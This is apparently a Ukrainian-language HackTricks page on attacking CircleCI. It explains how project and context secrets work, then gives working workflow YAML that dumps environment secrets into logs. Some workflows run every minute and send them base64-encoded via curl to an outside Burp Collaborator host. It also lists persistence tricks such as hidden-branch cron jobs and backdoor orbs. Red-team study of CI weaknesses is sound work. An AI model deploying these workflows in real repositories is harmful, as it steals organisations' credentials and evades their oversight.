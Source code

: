 # Безпека CircleCI

<details>

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## Основна інформація

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) - це платформа для **постійної інтеграції**, де ви можете **визначити шаблони**, вказавши, що ви хочете, щоб він робив з якимось кодом і коли це робити. Таким чином ви можете **автоматизувати тестування** або **розгортання** безпосередньо **з гілки майстра вашого репозиторію**, наприклад.

## Дозволи

**CircleCI** **успадковує дозволи** від github та bitbucket, пов'язані з **акаунтом**, який увійшов.\
У моїх тестах я перевірив, що доки у вас є **права на запис у репозиторії на github**, ви зможете **керувати налаштуваннями його проекту в CircleCI** (встановлювати нові ssh-ключі, отримувати ключі api проекту, створювати нові гілки з новими конфігураціями CircleCI...).

Однак вам потрібно бути **адміністратором репозиторію**, щоб **перетворити репозиторій на проект CircleCI**.

## Змінні середовища та Секрети

Згідно з [**документацією**](https://circleci.com/docs/2.0/env-vars/) існують різні способи **завантаження значень у змінні середовища** всередині робочого процесу.

### Вбудовані змінні середовища

Кожен контейнер, запущений CircleCI, завжди матиме [**певні змінні середовища, визначені в документації**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) як-от `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` або `CIRCLE_USERNAME`.

### Текст у відкритому вигляді

Ви можете вказати їх у відкритому вигляді всередині **команди**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Ви можете вказати їх у звичайному тексті всередині **середовища виконання**:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Ви можете вказати їх у звичайному тексті всередині **середовища build-job**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Ви можете вказати їх у звичайному тексті всередині **середовища контейнера**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Секрети проекту

Це **секрети**, які будуть доступні лише для **проекту** (для **будь-якої гілки**).\
Ви можете побачити їх, оголошені в _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
Функціонал "**Імпорт змінних**" дозволяє **імпортувати змінні з інших проектів** до цього.
{% endhint %}

### Контекстні секрети

Це секрети, які є **організаційними**. За замовчуванням будь-який репозиторій матиме доступ до будь-якого секрету, збереженого тут:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Проте слід зауважити, що можна **вибрати іншу групу (замість Усі учасники)**, щоб надати доступ до секретів лише певним людям.\
Це наразі один із найкращих способів **підвищити безпеку секретів**, щоб не дозволяти всім до них доступ, а лише деяким людям.
{% endhint %}

## Атаки

### Пошук секретів у відкритому тексті

Якщо у вас є **доступ до системи контролю версій** (наприклад, github), перевірте файл `.circleci/config.yml` **кожного репозиторію на кожній гілці** і **шукайте** потенційні **секрети у відкритому тексті**, збережені там.

### Перелік секретних змінних середовища та контекстів

Перевіряючи код, ви можете знайти **всі назви секретів**, які використовуються в кожному файлі `.circleci/config.yml`. Ви також можете отримати **назви контекстів** з цих файлів або перевірити їх у веб-консолі: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Ексфільтрація секретів проекту

{% hint style="warning" %}
Для того, щоб **ексфільтрувати ВСІ** секрети проекту та контексти, вам **просто** потрібно мати **ПРАВА ЗАПИСУ** до **лише 1 репозиторію** в усій організації github (_і ваш обліковий запис повинен мати доступ до контекстів, але за замовчуванням кожен може мати доступ до кожного контексту_).
{% endhint %}

{% hint style="danger" %}
Функціонал "**Імпорт змінних**" дозволяє **імпортувати змінні з інших проектів** до цього. Тому зловмисник може **імпортувати всі змінні проекту з усіх репозиторіїв** і потім **ексфільтрувати їх всі разом**.
{% endhint %}

Усі секрети проекту завжди встановлюються в середовищі завдань, тому просто викликання середовища та затемнення його в base64 ексфільтрує секрети в **журнал консолі веб-потоків**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Якщо у вас **немає доступу до веб-консолі**, але у вас є **доступ до репозиторію** і ви знаєте, що використовується CircleCI, ви можете просто **створити робочий процес**, який **запускається кожну хвилину** і який **екстрагує секрети на зовнішню адресу**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Витягнення секретів контексту

Вам потрібно **вказати назву контексту** (це також витягне секрети проекту):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Якщо у вас **немає доступу до веб-консолі**, але у вас є **доступ до репозиторію** і ви знаєте, що використовується CircleCI, ви можете просто **змінити робочий процес**, який **запускається кожну хвилину** і який **експортує секрети на зовнішню адресу**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Просто створення нового файлу `.circleci/config.yml` в репозиторії **недостатньо для запуску збірки в circleci**. Вам потрібно **увімкнути його як проект у консолі circleci**.
{% endhint %}

### Втеча в хмару

**CircleCI** дає вам можливість запускати **ваші збірки на їхніх машинах або на власних**. \
За замовчуванням їхні машини розташовані в GCP, і спочатку ви не зможете знайти нічого відповідного. Однак, якщо жертва запускає завдання на **власних машинах (потенційно, в хмарному середовищі)**, ви можете знайти **кінцеву точку метаданих хмари з цікавою інформацією на ній**.

Зверніть увагу, що в попередніх прикладах все запускалося всередині контейнера Docker, але ви також можете **попросити запустити віртуальну машину VM** (яка може мати різні дозволи хмари):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Чи навіть контейнер Docker з доступом до віддаленої служби Docker:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Наполегливість

* Можливо **створити токени користувача в CircleCI** для доступу до кінцевих точок API з доступом користувача.
* _https://app.circleci.com/settings/user/tokens_
* Можливо **створити токени проектів** для доступу до проекту з дозволами, наданими токеном.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Можливо **додати SSH-ключі** до проектів.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Можливо **створити cron-завдання в прихованій гілці** в неочікуваному проекті, який **витікає** всі **змінні середовища контексту** щодня.
* Або навіть створити в гілці / змінити відоме завдання, яке буде **витікати** всі контексти та **секрети проектів** щодня.
* Якщо ви власник github, ви можете **дозволити неперевірені орбіти** та налаштувати одну в завданні як **задній прохід**
* Ви можете знайти **вразливість внесення команд** в деяке завдання та **внести команди** через **секрет**, змінюючи його значення

<details>

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}
